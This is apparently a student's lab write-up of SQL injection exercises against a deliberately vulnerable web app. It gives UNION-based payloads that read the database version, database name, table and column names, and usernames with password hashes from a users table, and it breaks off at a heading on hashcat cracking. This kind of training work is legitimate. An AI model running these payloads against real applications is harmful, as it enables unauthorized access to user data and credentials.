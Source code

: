 # 2. SQL Injection

## 2.1. Basic Injection

When we change the ID parameter of the URL, it does the same thing as when we use the input field, the submission is done and we have the result

## 2.2. Always true scenario

When we put the following command in the field : 

```
%' or 0=0 union select null, version() #
```

The query is executed and the following result is obtained:

<img title="version of the database" alt="version of the database" src="/src/2.2_new.png">

We conclude that the database version is 10.1.26 of MariaDB

## 2.3 Exercises

### 2.3.1. Print the database user

To be able to select the important information of the users, we follow the following steps: 

- Look at the names of the tables to identify the users

To see the tables, we used the following command

```
%' or 0=0 union select table_name, null from information_schema.tables #"
```

the following result is obtained:

<img title="tables of the database" alt="ables of the database" src="/src/2.3.1_0.png">

So the name of the users table is users.
There are other tables of course but we just stopped the capture at this level for readability reasons 

- Identify important columns

We used the following command to find the columns of the users table.

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' 
```

Here is the result

<img title="Columns of the users table" alt="Columns of the users table" src="/src/2.3.1_1.png">

We see on this picture all the columns (highlighted in yellow) of the table.

- Select user data on the fields we are interested in 

We have chosen to retrieve the following fields: user_id, user, first_name, last_name, last_login, password.

Here is the query used 

```
%' or 0=0 union select 'user_id|user|first_name|last_name|last_login|password)', concat(user_id,'|',user, '|', first_name, '|', last_name, '|', last_login, '|', password) from users #
```

And here is the result

<img title="Retrieve of columns" alt="Retrieve of columns" src="/src/2.3.1_2.png">

The value of the First Name field displayed is just to help us find the value of the Surname field

### 2.3.2. Print the database name

To find the name of the database, we used this query: 

```
%' or 0=0 union select null, database() #
```

This gives as an answer: 

<img title="Database name" alt="Database name" src="/src/2.3.2.png">

### 2.2.3. Print the name of all of the tables in the database

The query to do this is as follows: 

```
%' or 0=0 union select table_name, null from information_schema.tables #
```

We also used it in answer 1.

Below is the result

<img title="All tables name" alt="All tables name" src="/src/2.3.3.png">

### 2.2.4. Print the names of all of the columns in the users table

We have already done so in answer 2.2.2 and here is the query we used

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' # 
```

### 2.2.5. Now that we have the column names, print out the usernames and hashed passwords for each user !

We used this query to get the usernames and passwords of the users 

```
%' or 0=0 union select 'first_name|last_name|password)', concat(first_name, '|', last_name, "|", password) from users #
```

Result:

<img title="Usernames and passwords of the users" alt="Usernames and passwords of the users" src="/src/2.3.5.png">

the logic of the output is the same as the answer 2.2.2

# 3. Cracking hashed passwords with hashcat
